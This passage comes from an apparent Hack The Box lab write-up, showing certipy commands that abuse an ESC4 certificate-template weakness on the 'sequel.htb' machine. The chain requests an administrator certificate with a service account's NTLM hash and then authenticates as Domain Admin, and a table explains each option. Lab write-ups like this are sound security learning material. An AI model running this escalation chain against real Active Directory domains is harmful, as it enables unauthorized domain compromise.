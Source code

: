 ![Desktop View](/ad-series-2/ss28.png)

![Desktop View](/ad-series-2/ss28-1.png)

As you can see in the result of the command bove, I was able to determine what to do next. Indicated in the `vulnerabilities` section was the ESC4.

> **ESC4** is a vulnerability that lets the attaker modify the Certificate Template to make it vulnerable. The conditions for this is that a low-privileged user has write permissions (e.g., `WriteProperty`, `WriteDacl`) on a certificate template.
{:.prompt-warning}

> We could use this for privilege escalation which could potentially lead to full domain compromise.
{:.prompt-danger}

With the information above, it was time to crack thy bones. 🦴

```
KRB5CCNAME=$PWD/ca_svc.ccache certipy-ad template -k -template DunderMifflinAuthentication -target dc01.sequel.htb -dc-ip <IP>
```

![Desktop View](/ad-series-2/ss29.png)

I used this command to exploit AD CS. This will request a certificate for the `administrator@sequel.htb` account using the `DunderMifflinAuthentication` template. Since `ca_svc` has control over this template, it can generate a valid authentication certificate for `administrator`.

```
sudo certify-ad req -username 'ca_svc@sequel.htb' -hashes <hash> -ca sequel-DC01-CA -target DC01.sequel.htb -template DunderMifflinAuthentication -upn administrator@sequel.htb -dc-ip <IP>
```

| Command Option            | Explanation                                                   |
| :-------------------------| :-------------------------------------------------------------|
| -username 'ca_svc@sequel.htb' | Authenticates as the `ca_svc` user. |
| -hashes <hash>      | Uses the NTLM hash of `ca_svc` instead of a password |
| -ca sequel-DC01-CA | Specifies the **Certificate Authority (CA)** server |
| -target DC01.sequel.htb | Targets the **Domain Controller (DC01)** for the certificate request. |
| -template DunderMifflinAuthentication | Specifies the certificate template to use for the request |
| -upn administrator@sequel.htb | Requests a certificate as `administrator@sequel.htb`, allowing <br> authentication as the Domain Admin. |
| -dc-ip <IP> | By this time, YOU GUYS / GAL ALREADY KNOW WHAT THIS HATDOG IS <BR> FOR RIGHT? |

![Desktop View](/ad-series-2/ss30.png)

Since I already have the `administrator.pfx` certificate that I could use to authenticate instead of using a password or hash.

```
certipy-ad auth -pfx administrator.pfx -domain sequel.htb
```
